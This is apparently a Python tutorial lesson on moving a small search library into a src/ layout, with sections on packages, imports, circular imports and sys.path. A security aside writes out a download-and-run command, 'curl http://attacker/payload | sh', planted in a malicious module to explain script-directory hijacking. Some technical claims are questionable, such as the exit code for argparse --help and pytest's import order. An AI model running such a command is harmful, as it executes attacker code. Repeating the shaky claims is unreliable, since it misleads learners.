

# Lesson 08: Project Layout and Imports

*Moving `notesearch` from a single script to the `src/notesearch/` layout, wiring absolute imports, and breaking one deliberate circular import so you can recognise the symptom next time.*

**Welcome to Lesson 08.**

Hello, friend. Pull up a chair. Where you put your Python files *matters*. The layout decides what `import notesearch.x` resolves to, whether your tests can import your code without `sys.path` hacks, and whether you can install your package on a user's machine without your source tree being on the import path. By the end of this lesson you will understand the `src/` layout (and why it's the standard), the difference between regular packages and namespace packages, absolute vs relative imports, and the three-line fix for a circular import. Section 05 (Project Architecture) builds on this lesson — bookmark it. Take your time. Type every example. **This is how you learn.**


#python #project-layout #imports #packaging

## Learning Objectives

By the end of this lesson you will be able to:

1. **Choose between `src/` layout and flat layout** for a new project, and explain why `src/` is the modern default.
2. **Read a real project tree** and identify which files are packages, which are modules, and which are scripts.
3. **Explain the role of `__init__.py`** — what it does, what it doesn't do, and when you can omit it (namespace packages).
4. **Distinguish regular packages from namespace packages (PEP 420)**, and pick the right one for multi-organisation libraries.
5. **Write absolute imports (`from notesearch.indexer import Indexer`)** and explain why they're preferred in modern code.
6. **Write relative imports (`from .indexer import Indexer`)** and explain the trade-off vs absolute.
7. **Diagnose a circular import** (`ImportError: cannot import name 'X' from partially initialized module 'Y'`) and fix it with one of three techniques.
8. **Use `python -m notesearch.cli` (or `uv run python -m notesearch.cli`)** to run a module by its dotted path, and explain why this is different from `python notesearch/cli.py`.
9. **Explain what `sys.path` is** and how Python uses it to resolve imports — including why the script's directory is on `sys.path[0]`.
10. **Read a `pyproject.toml` build-system section** and explain what `[build-system] requires = ["hatchling"]` actually does.
11. **Avoid the "wrong cwd" trap** — running tests from the wrong directory and getting import errors.

## Prerequisites

Before starting, you need:

- **Lessons 01–07.** This lesson moves the code you've been writing since Lesson 01 into a real package layout. Lesson 07 (`uv`) initialised the project; this lesson fills it with the `notesearch` modules.
- **Python 3.12** (or 3.13).
- **`uv 0.13.1`** (Lesson 07) — the `uv run` commands in this lesson assume you have the project from Lesson 07.
- **About an hour and a half of focused time.**

**The most common gap: `sys.path` and the "current directory" rule.**

When you run `python script.py`, Python adds *the directory containing `script.py`* to the front of `sys.path`. That means `import other` finds `other.py` *if it lives in the same directory as `script.py`*. The same rule does NOT apply when you run `python -m package.module` — there, Python adds the *current working directory* (cwd) to `sys.path`, not the module's directory. This single rule explains 80% of "why does this work when I run it one way and break when I run it another way." Re-read this paragraph.


## The Problem

`notesearch` v6 was a single script (`notesearch_v6.py`) you ran with `python notesearch_v6.py`. Lesson 07's `uv init --package` created `src/notesearch/__init__.py` — an empty package. Now we need to *fill* that package with the modules from v6, plus a CLI entry point.

The interesting questions are:

1. **Where does each module go?** `indexer.py`? `tokenizer.py`? `query.py`? `cli.py`?
2. **How do the modules import each other?** Does `notesearch/indexer.py` write `from notesearch.tokenizer import DefaultTokenizer` (absolute) or `from .tokenizer import DefaultTokenizer` (relative)?
3. **What if `notesearch/indexer.py` and `notesearch/tokenizer.py` both need to import each other?** That's a circular import — what's the fix?
4. **How do tests import the package?** `from notesearch.indexer import Indexer`? Or `import notesearch` and then `notesearch.Indexer`? Where do the tests live?
5. **What does `__init__.py` do?** Should it be empty? Should it re-export `Indexer` so users can write `from notesearch import Indexer`?
6. **How do I run the CLI?** `uv run notesearch` (using the `[project.scripts]` entry point from Lesson 07) or `uv run python -m notesearch.cli`? What's the difference?

This lesson answers all six and produces `notesearch` v8 — a real installable package with a sensible layout.

**Note — Historical context — `src/` layout won**

Before 2013, the convention was the "flat layout": your package directory sat at the repo root, alongside `setup.py` and `tests/`. The problem: when you ran `python` from the repo root, the package was importable from cwd *even without being installed*. So `import mypackage` worked in development but failed in production (where the package was installed into `site-packages`). The "src layout" (introduced by the `pytest` community around 2013-2015) puts the package under `src/`, so cwd does *not* put it on `sys.path`. You have to `pip install -e .` (or `uv sync` with `package = true`) to import it. This forces the dev environment to match the prod environment. By 2026 `src/` is the default; `uv init --package` produces it automatically.


## The Code

Here is the file tree we will build:

```
notesearch/ <- project root
├── pyproject.toml <- from Lesson 07
├── .python-version <- from Lesson 07
├── uv.lock <- from Lesson 07
├── README.md
├── src/
│ └── notesearch/
│ ├── __init__.py <- public API: re-exports
│ ├── exceptions.py <- the hierarchy from Lesson 06
│ ├── tokenizer.py <- Tokenizer Protocol + DefaultTokenizer
│ ├── indexer.py <- Indexer class (uses tokenizer, exceptions)
│ ├── query.py <- parse_query + QueryParseError
│ └── cli.py <- main() entry point
└── tests/ <- will be populated in Lesson 09
 ├── __init__.py <- empty (makes tests a package)
 ├── conftest.py <- shared fixtures (Lesson 09)
 └── test_indexer.py <- tests (Lesson 09)
```

Each module's content (truncated):

```python
# src/notesearch/__init__.py
"""notesearch — a tiny in-memory full-text-search library."""
from notesearch.indexer import Indexer
from notesearch.tokenizer import DefaultTokenizer, Tokenizer
from notesearch.exceptions import (
 NotesearchError,
 IndexBuildError,
 QueryParseError,
 TokenizerNotFoundError,
)

__all__ = [
 "Indexer",
 "Tokenizer",
 "DefaultTokenizer",
 "NotesearchError",
 "IndexBuildError",
 "QueryParseError",
 "TokenizerNotFoundError",
]

__version__ = "0.1.0"
```

```python
# src/notesearch/exceptions.py
"""notesearch exception hierarchy. Reused from Lesson 06."""
from __future__ import annotations

from collections.abc import Callable


class NotesearchError(Exception):
 """Base for all notesearch domain errors."""


class IndexBuildError(NotesearchError):
 """Failed to build the index."""


class QueryParseError(NotesearchError):
 """Failed to parse a search query."""

 def __init__(self, query_string: str, position: int, message: str) -> None:
 super().__init__(f"{message} at position {position} of {query_string!r}")
 self.query_string = query_string
 self.position = position
 self.message = message


class TokenizerNotFoundError(NotesearchError):
 """Requested tokenizer name is not registered."""

 def __init__(self, name: str) -> None:
 super().__init__(f"no tokenizer named {name!r}")
 self.name = name
```

```python
# src/notesearch/tokenizer.py
"""Tokenizer Protocol + DefaultTokenizer. Reused from Lesson 03."""
from __future__ import annotations

from collections.abc import Callable
from typing import Protocol, runtime_checkable


@runtime_checkable
class Tokenizer(Protocol):
 """A tokenizer: callable that takes a string and returns a list of tokens."""
 name: str

 def __call__(self, text: str) -> list[str]: ...


class DefaultTokenizer:
 """The default tokenizer: lowercase + split."""
 name: str = "default"

 def __call__(self, text: str) -> list[str]:
 return text.lower().split()
```

```python
# src/notesearch/indexer.py
"""Indexer: in-memory inverted index with per-instance tokenizer registry."""
from __future__ import annotations

from collections.abc import Callable
from typing import Any

# Absolute imports — preferred for cross-module imports in modern Python.
from notesearch.exceptions import IndexBuildError, TokenizerNotFoundError
from notesearch.tokenizer import Tokenizer


class Indexer:
 def __init__(self, tokenizer: Tokenizer | None = None) -> None:
 self._tokenizer: Tokenizer = tokenizer or DefaultTokenizer_local()
 self._registry: dict[str, Tokenizer] = {}
 self._index: dict[str, list[int]] = {}
 self._open = False

 def __enter__(self) -> "Indexer":
 self._open = True
 return self

 def __exit__(self, exc_type, exc_value, traceback) -> None:
 self._open = False

 def register_tokenizer(self, name: str) -> Callable[[Tokenizer], Tokenizer]:
 def decorator(func: Tokenizer) -> Tokenizer:
 self._registry[name] = func
 return func
 return decorator

 def get_tokenizer(self, name: str) -> Tokenizer:
 try:
 return self._registry[name]
 except KeyError as e:
 raise TokenizerNotFoundError(name) from e

 def add_document(self, doc_id: int, text: str, tokenizer_name: str | None = None) -> None:
 if not self._open:
 raise RuntimeError("Indexer is not open; use `with Indexer() as idx:`")
 tokenizer = self.get_tokenizer(tokenizer_name) if tokenizer_name else self._tokenizer
 try:
 tokens = tokenizer(text)
 except Exception as e:
 raise IndexBuildError(f"tokenizer failed on doc {doc_id}") from e
 for tok in tokens:
 postings = self._index.setdefault(tok, [])
 if doc_id not in postings:
 postings.append(doc_id)

 def search(self, word: str) -> list[int]:
 return list(self._index.get(word, []))


# Late binding to break the circular import (see deep dive)
from notesearch.tokenizer import DefaultTokenizer as DefaultTokenizer_local # noqa: E402
```

```python
# src/notesearch/query.py
"""Query parser. Reused from Lesson 06."""
from __future__ import annotations

from notesearch.exceptions import QueryParseError


def parse_query(query_string: str) -> list[tuple[str, str]]:
 terms: list[tuple[str, str]] = []
 tokens = query_string.split()
 i = 0
 while i < len(tokens):
 tok = tokens[i]
 if tok in {"AND", "OR", "NOT"}:
 if i + 1 >= len(tokens):
 raise QueryParseError(query_string, i, f"operator {tok!r} has no right-hand operand")
 terms.append((tok, tokens[i + 1]))
 i += 2
 else:
 terms.append(("AND", tok))
 i += 1
 return terms
```

```python
# src/notesearch/cli.py
"""notesearch CLI entry point."""
from __future__ import annotations

import argparse
import sys

from notesearch.indexer import Indexer
from notesearch.tokenizer import DefaultTokenizer


def main(argv: list[str] | None = None) -> int:
 parser = argparse.ArgumentParser(prog="notesearch", description="A tiny full-text-search library.")
 sub = parser.add_subparsers(dest="cmd", required=True)

 add_p = sub.add_parser("add", help="Add a document to a fresh in-memory index.")
 add_p.add_argument("doc_id", type=int)
 add_p.add_argument("text")

 search_p = sub.add_parser("search", help="Search the index for a word.")
 search_p.add_argument("word")

 args = parser.parse_args(argv)

 with Indexer(DefaultTokenizer()) as idx:
 if args.cmd == "add":
 idx.add_document(args.doc_id, args.text)
 print(f"added doc {args.doc_id}")
 elif args.cmd == "search":
 results = idx.search(args.word)
 print(f"results: {results}")
 return 0


if __name__ == "__main__":
 sys.exit(main())
```

## Line-by-Line Deep Dive

This is the heart of the lesson. Read it twice. Do not skip.

**Think like a senior engineer: the import system is a search path, not magic.**

When a junior engineer hits `ModuleNotFoundError: No module named 'notesearch'`, they reach for the closest incantation — `pip install -e .`, `PYTHONPATH=.`, `sys.path.insert(0, "...")`, a copy-pasted `conftest.py` from the last project. When a senior engineer hits the same error, they ask one question: *what is on `sys.path` right now, and which entry was supposed to contain this module?* That question dissolves the magic. The import system is not a resolver with heuristics; it is a linear walk over a list of directories, first match wins, no fallback. Everything else — `__init__.py`, namespace packages, editable installs, `python -m` vs `python script.py` — is a mechanism that decides *which directories are on the list and in what order*. The senior reads every import bug as a `sys.path` bug until proven otherwise, because in 20 years of Python that has been the correct diagnosis roughly 80 % of the time. Keep that lens for the rest of this deep dive: every block of code is, underneath, a statement about `sys.path`.


### The `src/` layout vs flat layout

**Flat layout:**

```
notesearch/ <- project root
├── pyproject.toml
├── notesearch/ <- package at root
│ ├── __init__.py
│ ├── indexer.py
│ └── ...
└── tests/
```

**Src layout:**

```
notesearch/ <- project root
├── pyproject.toml
└── src/
 └── notesearch/ <- package under src/
 ├── __init__.py
 ├── indexer.py
 └── ...
└── tests/
```

**The difference that matters:** When you `cd` into the project root and run `python -c "import notesearch"`, the flat layout *succeeds without installing* (cwd is on `sys.path`). The src layout *fails* — `notesearch` is not on `sys.path` until you `pip install -e .` (or `uv sync` with `package = true`).

**Why the src layout is preferred:**

1. **Forces install to test.** Your tests run against the *installed* package, not the source tree. If your packaging is broken (e.g. you forgot to include `exceptions.py` in the wheel), you find out at test time, not at publish time.
2. **No accidental cwd imports.** If you're in `src/notesearch/` and run `python -c "import notesearch"`, the *installed* package is found, not the source files. This matches production behaviour.
3. **Consistent across tools.** mypy, pytest, ruff — they all see the installed package the same way.

**Student asks: why is "tests run against the installed package" a *feature* and not a *bug*? It seems to add friction.**

Because the alternative is the most common packaging failure mode: tests pass locally (against the source tree), you publish to PyPI, and the published wheel is broken because you forgot to declare `py_modules` or `packages` correctly — half the files were never included. With a flat layout, your tests `import notesearch` from `cwd`, the source tree is on `sys.path`, and the missing-file-in-wheel bug is invisible until a user complains. With the `src/` layout, your tests `import notesearch` from `site-packages`, which is *only* populated by an install step (`uv sync`/`pip install -e .`), which is *exactly* the step that produces the wheel. The `src/` layout turns "tests passed" into "the package builds, the wheel installs, the tests pass on the installed artefact." That is the property you want; the friction is the feature.


**Student asks: what about `pip install -e .` (editable install) — does that defeat the "tests run against the installed package" property?**

Editable installs (`pip install -e .`, or `uv sync` with editable mode) put a `.pth` file in `site-packages` that redirects imports back to your `src/` directory. So at first glance it looks like you are back to "tests run against the source tree." The difference is that the `.pth` file is *opt-in* via the install step — if your `pyproject.toml` declares the wrong packages, the editable install *fails* at `uv sync` time, before any test runs. The flat layout silently succeeds even when packaging is broken. So editable mode does not fully defeat the property — it still gates imports behind a successful install, just one that points back at your source tree for fast edit-test loops. The trade-off (fast iteration) is worth it for development; ship with a non-editable install in CI to catch any remaining surprises.


**Production reality — the `src/` layout at monorepo scale and the workspace boundary.**

The single-package `src/` layout described in this section scales straightforwardly to a workspace: every member package lives in `packages/<name>/src/<name>/`, and the workspace root's `pyproject.toml` declares `[tool.uv.workspace] members = ["packages/*"]`. The win at scale is that every member's tests import *only* from the member's own package and the workspace-shared `.venv/` — never from another member's source tree. The failure mode the layout prevents: an engineer on `notesearch-cli` writes `from notesearch_core.internal_helpers import _format_postings` (an underscore-prefixed private helper from `notesearch-core`), and the workspace's shared `.venv/` resolves the import because both members are installed editable. Locally, the test passes. In production, when `notesearch-core` publishes a `1.1.0` that removes `_format_postings`, the `notesearch-cli` deployment breaks at runtime — the import worked in dev because the editable install exposed the source tree, but the published wheel had the deletion. The `src/` layout combined with the workspace's per-member `pyproject.toml` *forces* the dependency to be declared (and therefore visible in `uv tree`), so a CI lint can flag `from notesearch_core._private import` as a private-API access. The senior engineer's rule for monorepos: every cross-member import is a *versioned* dependency, not a source-tree convenience — the `src/` layout makes this true even in editable mode, because the editable install goes through the same packaging machinery as the published wheel. See [[01-Python-Foundations/uv-Tooling-Workflows]] for the workspace `uv` commands; this lesson's `src/` layout is what makes the workspace's boundaries meaningful.


The trade-off: src layout requires an install step (`uv sync` or `pip install -e .`) before you can run anything. With `uv` and `package = true`, this happens automatically.

### `__init__.py`: what it does and doesn't do

A `__init__.py` file marks a directory as a *regular package*. The file can be empty (the modern default) or contain code (re-exports, package-level initialisation).

**What `__init__.py` does:**

1. Marks the directory as a package. Without `__init__.py`, the directory is treated as a *namespace package* (PEP 420) — slightly different semantics, see below.
2. Runs *once* when the package is first imported. Any code in `__init__.py` runs at that moment.
3. Defines what `from package import X` exposes. The `__all__` list (if set) controls `from package import *`; the module-level names control `from package import X` for explicit X.

**What `__init__.py` does *not* do:**

1. It does *not* automatically expose submodules. `from notesearch import indexer` only works if `__init__.py` has `from notesearch import indexer` or `import notesearch.indexer` somewhere. Just having `indexer.py` in the directory is not enough.
2. It does *not* control the order of imports (Python's import system handles that).
3. It does *not* run when submodules are imported directly. `import notesearch.indexer` runs `notesearch/__init__.py` first (once), then `notesearch/indexer.py`.

For `notesearch/__init__.py`, we re-export the public API (`Indexer`, `Tokenizer`, `DefaultTokenizer`, the exception hierarchy) so users can write `from notesearch import Indexer` instead of `from notesearch.indexer import Indexer`. The `__all__` list documents which names are public; tools like `from notesearch import *` use it.

**Warning — Debugging — side effects in `__init__.py` cause import-time crashes that look like "circular" but aren't.**

A common pattern is to put configuration loading in `__init__.py`: `from notesearch._config import SETTINGS` at the top of `notesearch/__init__.py`, where `_config.py` reads `os.environ` and `~/.config/notesearch.toml`. The footgun: every `import notesearch.anything` now triggers a filesystem read *and* an environment lookup, at *import time*. If `~/.config/notesearch.toml` does not exist in the CI container (no one copied it), `import notesearch.indexer` raises `FileNotFoundError` — and the traceback points at `__init__.py` line 4, not at the actual `indexer.py` you were importing. The symptom looks exactly like a circular import (the partially-initialized-module error has a similar shape) but the diagnosis is different: the failure is *side-effect-at-import-time*, not circularity. The diagnostic: `uv run python -c "import notesearch"` from a clean cwd — if it raises before any submodule is touched, the bug is in `__init__.py`. The fix: move side-effecting code out of `__init__.py` entirely. Configuration should be loaded *lazily* (the first time `Indexer.__init__` runs) or behind a function (`from notesearch import get_settings; settings = get_settings()`), never at package import. The senior engineer's rule for `__init__.py`: it should contain *only* `import` statements, `__all__`, `__version__`, and docstrings — no `open()`, no `os.environ`, no `requests.get`, no `logging.basicConfig`. Side effects belong in functions called at runtime, not in module scope that runs at import.


### Namespace packages (PEP 420) vs regular packages

A *regular package* has an `__init__.py`. A *namespace package* does not. The difference:

- **Regular package:** The directory is the package. `__init__.py` runs at first import. The package's `__path__` is set to the directory.
- **Namespace package:** The directory is *split* across multiple locations on `sys.path`. Two different libraries can contribute submodules to the same namespace package. Used by big multi-repo organisations (e.g. `google.cloud.bigquery`, `google.cloud.storage` — different packages, same `google.cloud` namespace).

For `notesearch`, we use regular packages everywhere — every directory under `src/` has an `__init__.py`. Namespace packages are for the multi-repo case; we do not need them.

**Warning — Don't mix regular and namespace packages for the same name.**

If `notesearch/__init__.py` exists in one location but not in another, the location *with* `__init__.py` wins as a regular package and the other location is ignored. This causes confusing "where did my module go?" bugs. Either all `notesearch/` directories have `__init__.py` (regular package), or none do (namespace package). Pick one.


**Production reality — the org-wide namespace-package CI lint.**

The single-project warning above scales to an organisational rule: every package that contributes to a shared namespace (`acme.auth`, `acme.billing`, `acme.search`) must omit the `acme/__init__.py`, *without exception*. The failure mode at scale is one team out of fifteen shipping an `acme/__init__.py` in a release, and every other team's `import acme.their_module` breaking for downstream users who happen to install both the offending package and any other `acme-*` package. The fix is not a code review rule (reviews miss files in build artifacts); it is a CI lint that runs on every `acme-*` package's published wheel. The lint is one shell line: `unzip -l dist/*.whl | grep -E '^\s+.*acme/__init__\.py$'` — if it returns anything, the build fails. The senior engineer's rule for org-wide namespaces: the namespace contract is enforced by CI, not by documentation. Documentation drifts; CI does not. The same pattern applies to `google.cloud.*`, `aws-cdk.*`, `azure-*`, and `microsoft-*` — all of which have a documented "no `__init__.py` at the namespace level" rule that is enforced by a CI lint in each contributing package. The rule generalises: any cross-repo contract that depends on a file's *absence* (rather than its presence) needs a CI lint, because absence is invisible in review.


### Absolute vs relative imports

**Absolute imports** spell out the full dotted path:

```python
from notesearch.exceptions import IndexBuildError
from notesearch.tokenizer import Tokenizer
```

**Relative imports** use leading dots:

```python
from .exceptions import IndexBuildError # same package
from .tokenizer import Tokenizer # same package
from ..sibling import X # parent package's sibling
```

The leading dot means "relative to this module's package." `.exceptions` is `notesearch.exceptions` when imported from `notesearch/indexer.py`. `..sibling` is the parent package's sibling.

**Trade-offs:**

| Form | Pros | Cons |
| --- | --- | --- |
| Absolute | Clear; works everywhere; refactor-safe (renames work) | Verbose; "domain prefix" is repeated |
| Relative | Concise; works regardless of package name | Breaks if module is moved; not allowed in scripts (only in modules inside a package) |

PEP 8 (the Python style guide) recommends absolute imports. The FastAPI Engineering Academy uses absolute throughout. The one place you might prefer relative is inside a deeply-nested package where the absolute path is tedious; we don't have that case in `notesearch`.

**Warning — Debugging — the IDE auto-rewrite that silently flips absolute to relative (and breaks `python -m`).**

Modern Python IDEs (PyCharm, VS Code with Pylance, Cursor) offer an "Optimise Imports" action that converts `from notesearch.tokenizer import Tokenizer` to `from .tokenizer import Tokenizer` (relative) inside a package, on the grounds that relative imports are "more concise." The action is one keystroke and the IDE marks it as a refactor. The footgun: the relative form *only* works when the module is imported as part of the package (i.e. via `python -m notesearch.indexer` or `import notesearch.indexer`). If a developer runs `python src/notesearch/indexer.py` directly (the "script" form from the `python -m` vs `script.py` section below), the relative import raises `ImportError: attempted relative import with no known parent package`. The CI that runs `uv run python -m notesearch.cli` passes; the developer's `python src/notesearch/indexer.py` (a debugging session) fails. The diagnosis is subtle because the IDE *just* rewrote the import and the developer does not connect the two events. The diagnostic: `git diff` after the IDE's optimisation — if the diff shows `from notesearch.X` becoming `from .X`, that is the IDE rewrite. The fix: configure the IDE's import-optimisation to *prefer absolute* (PyCharm: "Preferences > Editor > Code Style > Python > Use imports for members" > check "Absolute imports"); or disable the auto-rewrite entirely and run `uv run ruff check --select I --fix` (ruff's isort rule rewrites imports to absolute per PEP 8, deterministically, in CI). The senior engineer's rule: import style is a *CI-enforced* contract, not an IDE preference — ruff in CI is the source of truth, the IDE is a preview.


### `indexer.py`: the late-binding trick to break a circular import

```python
# src/notesearch/indexer.py (excerpt)
from notesearch.exceptions import IndexBuildError, TokenizerNotFoundError
from notesearch.tokenizer import Tokenizer


class Indexer:
 def __init__(self, tokenizer: Tokenizer | None = None) -> None:
 self._tokenizer: Tokenizer = tokenizer or DefaultTokenizer_local()
 ...

# Late binding to break the circular import (see deep dive)
from notesearch.tokenizer import DefaultTokenizer as DefaultTokenizer_local # noqa: E402
```

**What this is:** The `Indexer.__init__` uses `DefaultTokenizer_local()` as a fallback when no tokenizer is passed. But we import `DefaultTokenizer` *at the bottom of the file*, not the top.

**Why:** Suppose `notesearch/tokenizer.py` imported from `notesearch/indexer.py` (e.g. it needed `Indexer` for some reason). The import chain would be:

1. Python starts importing `notesearch.indexer`.
2. `from notesearch.tokenizer import Tokenizer` triggers importing `notesearch.tokenizer`.
3. If `notesearch.tokenizer` has `from notesearch.indexer import Indexer`, Python tries to import `notesearch.indexer` — but `notesearch.indexer` is *partially initialized* (we're still at step 2). `Indexer` does not exist yet. `ImportError: cannot import name 'Indexer' from partially initialized module 'notesearch.indexer'`.

The fix: defer one of the imports. By moving `from notesearch.tokenizer import DefaultTokenizer` to the *bottom* of `indexer.py`, we ensure it runs *after* the `Indexer` class is defined. So if `tokenizer.py` ever tries to import `Indexer`, the class is already in `notesearch.indexer`'s namespace.

**Warning — Late-binding imports are a *workaround*, not a *fix*.**

The real fix is to refactor so the circular dependency goes away (e.g. extract a shared base module that both `indexer.py` and `tokenizer.py` import from). Late binding is the pragmatic fix when refactoring is expensive. Document the workaround with a comment ("Late binding to break circular import with notesearch.tokenizer").


**Student asks: why is the late-bound import allowed but a top-of-file circular import isn't?**

Because the import statement at the bottom of `indexer.py` runs *after* the `class Indexer` statement has executed. By the time the bottom import runs, `Indexer` is in the `notesearch.indexer` module's namespace. So when `notesearch.tokenizer` does `from notesearch.indexer import Indexer`, it succeeds. The circularity is resolved by ordering. A top-of-file import would have run *before* `class Indexer` was defined, so the same lookup would have failed.


**Production reality — the import-order divergence between `pytest` and `gunicorn` is the 3 a.m. circular-import fire.**

The late-binding trick in `indexer.py` works in dev because `pytest` collects tests alphabetically and imports `notesearch.indexer` *before* `notesearch.tokenizer` (the `i` comes before the `t`). In production, `gunicorn notesearch.app:app` imports `notesearch.app` first, which imports `notesearch.query` (alphabetically before `notesearch.tokenizer`), which imports `notesearch.tokenizer`, which (in the broken scenario) tries to import `notesearch.indexer` — and the cycle closes *before* the late-binding bottom-of-file import in `indexer.py` has a chance to run. The result: tests pass, prod crashes on deploy, the on-call engineer is paged. The diagnostic is the one-liner `uv run python -c "import notesearch.app"` from a fresh shell — if it raises `ImportError: cannot import name 'Indexer' from partially initialized module 'notesearch.indexer'`, you have the prod-only circular import. The pytest-passes-but-gunicorn-fails divergence is the signature. The fix is *not* more late-binding (that just moves the cycle); it is the morning refactor described in the warning above. The senior engineer's rule: any circular import that "works" in pytest is a *latent* prod failure — CI must include a smoke-import job that runs `uv run python -c "import notesearch.app"` (or the equivalent entry-point module) on every push, *before* the test suite runs, so the import-order divergence is caught at PR time, not at deploy time. See the [[11-Authentication-and-Security/Threat-Model-First]] pattern of "design for the failure mode you actually have" — the import-order divergence is the failure mode Python's import system actually has.


### `cli.py`: the entry point module

```python
# src/notesearch/cli.py (excerpt)
def main(argv: list[str] | None = None) -> int:
 parser = argparse.ArgumentParser(prog="notesearch", description="...")
 sub = parser.add_subparsers(dest="cmd", required=True)
 ...
 args = parser.parse_args(argv)
 with Indexer(DefaultTokenizer()) as idx:
 if args.cmd == "add":
 idx.add_document(args.doc_id, args.text)
 ...
 return 0


if __name__ == "__main__":
 sys.exit(main())
```

**What this does:** Defines a `main(argv)` function that parses arguments and dispatches to the Indexer. The `[project.scripts]` entry point from Lesson 07 (`notesearch = "notesearch.cli:main"`) makes `uv run notesearch` call this function.

**Why `argv: list[str] | None = None`:** Passing `None` means `parse_args` reads from `sys.argv[1:]`. Passing an explicit list (e.g. `["add", "1", "hello"]`) lets you test `main()` without monkeypatching `sys.argv`. This is the test-friendly CLI pattern.

**Why `return 0`:** `main()` returns an exit code. 0 means success; non-zero means failure. `sys.exit(main())` propagates the exit code to the shell. This is the Unix convention; pytest's own CLI, ruff's CLI, mypy's CLI all do this.

**Warning — Debugging — `argparse` calls `sys.exit(2)` on `--help` and on parse errors, which silently breaks `set -e` pipes.**

`argparse`'s `parse_args` calls `sys.exit(2)` when the user passes `--help` (exit code 0) or an unrecognised argument (exit code 2). The footgun: `sys.exit()` raises `SystemExit`, which is *not* a subclass of `Exception` (it is a `BaseException`), so a `try/except Exception:` block *will not catch it* — but the process still exits. In a CI pipeline that runs `uv run notesearch add 1 hello | tee log.txt` with `set -e` (bash's "exit on any error" mode), the pipe *swallows* the exit code: `tee` exits 0, the pipeline's exit code is `tee`'s, and a `notesearch` failure is invisible. The symptom: the CI job is green, but `log.txt` contains `error: invalid choice: 'ad'` (a typo of `add`), and the downstream step ran against empty data. The diagnostic: `set -o pipefail` (bash) or `set -e -o pipefail` — `pipefail` makes the pipeline's exit code the *first non-zero* in the chain, so `notesearch`'s exit 2 propagates. The fix in `cli.py`: wrap `parser.parse_args(argv)` in a `try/except SystemExit as e:` block if you need to *test* the CLI (pytest's `capsys` fixture captures stdout, but `SystemExit` ends the test run); for production, let `argparse` exit on `--help` and on parse errors — that *is* the Unix convention. The senior engineer's rule for CLI exit codes: (a) `0` = success, (b) `1` = application error (a caught exception, a validation failure), (c) `2` = usage error (argparse's domain), (d) `130` = SIGINT (Ctrl-C). Every other exit code is a bug. Document the contract in `--help` and enforce it in tests with `pytest.raises(SystemExit) as excinfo; assert excinfo.value.code == 2`.


### `python -m` vs `python script.py`

You can run a module two ways:

```bash
uv run python -m notesearch.cli add 1 "hello world"
# OR
uv run python src/notesearch/cli.py add 1 "hello world" # different sys.path
```

**The difference:**

- `python -m notesearch.cli` adds the *current working directory* to `sys.path[0]`. The module is found via the package path `notesearch.cli`.
- `python src/notesearch/cli.py` adds *the directory containing `cli.py`* (i.e. `src/notesearch/`) to `sys.path[0]`. This means `import notesearch` would fail (because `notesearch/` is now treated as the top-level package, not `src/notesearch/`).

For `notesearch`, we always use `uv run notesearch` (the entry point from Lesson 07) or `uv run python -m notesearch.cli`. We never use `python src/notesearch/cli.py` because it breaks imports.

**Tip — Use `-m` for any module that's part of a package.**

If your script is in a package (has `__init__.py` siblings), use `python -m package.module`. If your script is a standalone file (no package), `python script.py` is fine. The academy standardises on `python -m` everywhere for consistency.


**Danger — How an attacker thinks — running `python script.py` from an untrusted directory is a code-execution primitive.**

The script-vs-module rule (`python script.py` puts the script's *directory* at `sys.path[0]`) is also a privilege-escalation vector. The realistic attack: an attacker sends a phishing email to a developer with a `.zip` attachment named `notesearch-helper.zip` that contains two files: `run.py` (a small script that does `import notesearch; ...`) and `notesearch.py` (a malicious module whose top-level is `import os; os.system("curl http://attacker/payload | sh")`). The developer unzips to `~/Downloads/notesearch-helper/` and runs `python run.py` from that directory. Python puts `~/Downloads/notesearch-helper/` at `sys.path[0]`, so `import notesearch` finds the malicious `notesearch.py` *before* the installed package — the attacker's payload runs with the developer's privileges, in the developer's project directory, with the developer's `git` credentials and `~/.aws/credentials` accessible. The installed package's pinned version and recorded hash are *irrelevant* — the local file wins because of `sys.path[0]`. The defences: (a) never run `python anything.py` from a directory you did not create — prefer `uv run python -m package.module` which puts *cwd* at `sys.path[0]`, not the script's directory; (b) `python -I script.py` (isolated mode) ignores `PYTHON*` env vars and the user site-packages, narrowing the attack surface; (c) `python -P script.py` (Python 3.11+, the "safe path" flag) does *not* prepend the script's directory to `sys.path` — this is the single most effective flag for the "run a downloaded script" workflow, because it removes the entire attack vector; (d) in containers and CI, `python -I -m notesearch.cli` is the safest invocation — `-I` for env-var isolation, `-m` for cwd-instead-of-script-dir on `sys.path[0]`. The senior engineer's rule: `python script.py` is a development convenience that should never appear in a deployment manifest, a CI script, or a `Dockerfile` `CMD`. The pattern is `uv run python -m package.module` everywhere — the academy's convention from Lesson 07 is the security boundary.


### `sys.path`: what it is and how Python uses it

`sys.path` is a list of directories Python searches for modules. When you `import X`, Python walks `sys.path` in order and uses the first directory that contains `X` (as a module or package).

The default contents (for `python -m notesearch.cli`):

1. The current working directory (cwd).
2. The `PYTHONPATH` environment variable's directories (if set).
3. The standard library directories.
4. `site-packages` (where `uv sync` installed your dependencies).

**The script-vs-module rule** (the most common gotcha):

- `python script.py` → `sys.path[0]` = directory containing `script.py`.
- `python -m package.module` → `sys.path[0]` = cwd.

